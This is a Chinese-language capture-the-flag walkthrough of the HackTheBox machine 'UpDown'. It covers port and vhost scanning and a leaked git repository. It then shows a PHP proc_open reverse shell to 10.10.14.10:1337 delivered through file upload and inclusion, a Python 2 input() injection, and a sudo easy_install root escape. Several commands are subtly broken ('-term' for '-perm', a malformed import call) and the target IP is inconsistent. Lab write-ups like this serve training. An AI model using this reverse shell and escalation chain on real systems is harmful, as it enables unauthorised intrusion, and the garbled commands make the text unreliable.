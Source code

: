 ```yaml
---
title: HackTheBox-UpDown
date: 2025-3-11 5.48
tags: 红队
categories: 红队打靶
---
```




# nmap 

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Is my Website up ?
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

# 80端口

## **vhost扫描**

```
gobuster vhost -u http://10.10.11.177 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
ffuf -u "http://FUZZ.siteisup.htb" -w /usr/share/wordlists/amass/subdomains.lst -ms 200,301 -t 100
```

发现子域名dev.siteisup.htb

现将siteisup.htb加入DNS记录

## **目录扫描**

```
dirsearch -u http://10.10.11.117
dirsearch -u http://10.10.11.117/dev
gobuster dir -u http://10.10.11.177 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

扫目录发现/dev

访问/dev目录为空

继续扫/dev目录发现git文件泄露

使用git-dumper将git下载到本地进行分析，发现

.htaccess

```
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```

dev.siteisup.htb需要添加一个特殊的**请求头**

```
Special-Dev:only4dev
```

还得到相关源码，index.php中有page参数，有文件包含漏洞，正好dev.siteisup.htb是文件上传，文件上传之后利用文件包含来执行，但是check.php对文件进行了限制，先上传phpinfo检查disable_function

proc_open没被禁用

```
反弹shell
<?php
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin
1 => array('pipe', 'w'), // stdout
2 => array('pipe', 'a') // stderr
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.10/1337 0>&1'";
$process = proc_open($cmd, $descriptorspec, $pipes, null, null);
?>
```

# 提权

```
查找有suid权限的文件
find / -type f -term -u=s 2>/dev/null
```

找到siteisup，同目录下还有siteisup.py

```python
***siteisup.py***

import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```

执行siteisup时是以developer的权限执行的

input在Python2中是不安全的可以进行命令执行，行为类似于eval

```
执行__system__('os').system('/bin/bash')
```

得到developer权限，但是用户组还是www-data,无法访问user.txt但是可以访问.ssh，可以查看自己的公私钥，将私钥保存在本地，ssh连接develop，即可查看user.txt

sudo -l发现有/usr/local/bin/easy_install权限

easy_install可以进行sudo提权

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```

即可成功得到root权限
